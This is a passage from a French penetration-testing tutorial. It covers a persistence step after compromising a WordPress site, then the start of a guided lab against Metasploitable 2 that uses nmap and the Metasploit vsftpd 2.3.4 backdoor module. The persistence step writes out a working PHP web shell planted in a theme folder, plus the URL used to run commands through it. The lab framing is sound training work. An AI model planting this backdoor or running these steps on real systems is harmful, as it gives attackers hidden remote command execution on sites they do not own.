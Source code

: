 **Étape 6 : Persistance (optionnelle)**

Installer une backdoor plus discrète :
```bash
# Créer un fichier PHP dans le thème actif
echo '<?php if(isset($_GET["backdoor"])) { system($_GET["cmd"]); } ?>' > /var/www/html/wp-content/themes/twentytwentyone/backdoor.php

# Accès ultérieur via
# http://cible.com/wp-content/themes/twentytwentyone/backdoor.php?backdoor&cmd=id
```

Ce scénario illustre une approche rapide et efficace pour compromettre un site WordPress vulnérable. Dans un contexte réel de test d'intrusion, il est essentiel de documenter chaque étape et de s'assurer que les actions entreprises respectent le cadre légal et éthique défini.



## 5. Mini-lab guidé (Metasploitable 2 + OWASP Juice Shop)

Ce mini-laboratoire pratique, d'une durée estimée à 90 minutes, vous guidera à travers l'exploitation de vulnérabilités courantes sur deux plateformes d'entraînement populaires : Metasploitable 2 pour les services réseau et OWASP Juice Shop pour les applications web. L'objectif est de mettre en application les concepts et outils présentés précédemment dans un environnement contrôlé.

**Prérequis :**
*   Une machine virtuelle Kali Linux (ou équivalent) avec les outils nécessaires installés (Nmap, Metasploit, Burp Suite, navigateur web).
*   Les machines virtuelles Metasploitable 2 et OWASP Juice Shop (via Docker ou VM) déployées sur le même réseau que votre machine d'attaque.
*   Obtenir les adresses IP des machines cibles (Metasploitable 2 et Juice Shop).

### 5.1 Exploitation de Metasploitable 2 (≈ 45 minutes)

Metasploitable 2 est une machine virtuelle Linux délibérément vulnérable, conçue pour l'entraînement à la sécurité. Nous allons exploiter une vulnérabilité connue sur un service réseau.

**Étape 1 : Scan de ports et identification des services**

Commencez par scanner Metasploitable 2 pour identifier les ports ouverts et les services associés. Utilisez Nmap pour un scan complet :
```bash
nmap -sV -p- ADRESSE_IP_METASPLOITABLE2
```
Analysez les résultats pour repérer des services connus pour être vulnérables. Portez une attention particulière aux versions des services indiquées par Nmap. Par exemple, vous pourriez remarquer un service vsftpd en version 2.3.4, connu pour une backdoor.

**Étape 2 : Recherche d'exploits**

Utilisez Metasploit pour rechercher des exploits correspondant aux services et versions identifiés. Lancez `msfconsole` et utilisez la commande `search` :
```bash
msfconsole
msf > search vsftpd 2.3.4
```
Metasploit devrait lister l'exploit `exploit/unix/ftp/vsftpd_234_backdoor`. Sélectionnez cet exploit :
```bash
msf > use exploit/unix/ftp/vsftpd_234_backdoor
```

